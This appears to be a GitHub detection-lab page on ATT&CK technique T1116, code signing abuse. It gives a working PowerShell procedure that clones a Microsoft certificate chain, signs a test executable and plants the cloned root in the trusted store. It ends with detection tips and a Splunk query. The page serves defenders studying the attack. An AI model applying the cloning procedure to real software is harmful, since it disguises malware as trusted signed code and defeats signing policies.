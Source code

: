 # T1116 - Code Signing
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1116)
<blockquote>
Code signing provides a level of authenticity on a binary from the developer and a guarantee that the binary has not been tampered with. [1](https://en.wikipedia.org/wiki/Code_signing) However, adversaries are known to use code signing certificates to masquerade malware and tools as legitimate binaries [2](http://www.thesafemac.com/new-signed-malware-called-janicab/). 
The certificates used during an operation may be created, forged, or stolen by the adversary.[3](https://securelist.com/why-you-shouldnt-completely-trust-files-signed-with-digital-certificates/68593/),[4](https://www.symantec.com/connect/blogs/how-attackers-steal-private-keys-digital-certificates)

Code signing to verify software on first run can be used on modern Windows and macOS/OS X systems. It is not used on Linux due to the decentralized nature of the platform. [1](https://en.wikipedia.org/wiki/Code_signing)

Code signing certificates may be used to bypass security policies that require signed code to execute on a system.
</blockquote>

## Assumptions
The attacker is trying to avoid detection by having their software signed with legitimate certificates by cloning, forging and having valid certificates.

## Execution:
<blockquote>
# We'll just store the cloned certificates in current user "Personal" store for now.
$CertStoreLocation = @{ CertStoreLocation = 'Cert:\CurrentUser\My' }

$MS_Root_Cert = Get-PfxCertificate -FilePath C:\Test\MSKernel32Root.cer
$Cloned_MS_Root_Cert = New-SelfSignedCertificate -CloneCert $MS_Root_Cert @CertStoreLocation

$MS_PCA_Cert = Get-PfxCertificate -FilePath C:\Test\MSKernel32PCA.cer
$Cloned_MS_PCA_Cert = New-SelfSignedCertificate -CloneCert $MS_PCA_Cert -Signer $Cloned_MS_Root_Cert @CertStoreLocation

$MS_Leaf_Cert = Get-PfxCertificate -FilePath C:\Test\MSKernel32Leaf.cer
$Cloned_MS_Leaf_Cert = New-SelfSignedCertificate -CloneCert $MS_Leaf_Cert -Signer $Cloned_MS_PCA_Cert @CertStoreLocation

/# Create some sample code to practice signing on
Add-Type -TypeDefinition @'
public class Foo {
    public static void Main(string[] args) {
        System.Console.WriteLine("Hello, World!");
        System.Console.ReadKey();
    }
}
'@ -OutputAssembly C:\Test\HelloWorld.exe

/# Validate that that HelloWorld.exe is not signed.
Get-AuthenticodeSignature -FilePath C:\Test\HelloWorld.exe

/# Sign HelloWorld.exe with the cloned Microsoft leaf certificate.
Set-AuthenticodeSignature -Certificate $Cloned_MS_Leaf_Cert -FilePath C:\Test\HelloWorld.exe
/# The certificate will not properly validate because the root certificate is not trusted.

/# View the StatusMessage property to see the reason why Set-AuthenticodeSignature returned "UnknownError"
/# "A certificate chain processed, but terminated in a root certificate which is not trusted by the trust provider"
Get-AuthenticodeSignature -FilePath C:\Test\HelloWorld.exe | Format-List *

/# Save the root certificate to disk and import it into the current user root store.
/# Upon doing this, the HelloWorld.exe signature will validate properly.
Export-Certificate -Type CERT -FilePath C:\Test\MSKernel32Root_Cloned.cer -Cert $Cloned_MS_Root_Cert
Import-Certificate -FilePath C:\Test\MSKernel32Root_Cloned.cer -CertStoreLocation Cert:\CurrentUser\Root\

/# You may need to start a new PowerShell process for the valid signature to take effect.
Get-AuthenticodeSignature -FilePath C:\Test\HelloWorld.exe
</blockquote>
[Certificate Cloning for Signed Binary](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec)
 

## Detection:
* Create baseline of certificates on your network
* Investigate any potentially unusual certificates
* Look for selfsigned cloned legitimate certificates
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1116)

### Visibility
* Search for evidence of the invalid or forged certificates using AutoRuns

### Filter / Correlation in Splunk
```
commandline:"New-SelfSignedCertificate*" AND (commandline:"*CloneCert*" OR commandline:"*-Signer*")
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1116.JPG)
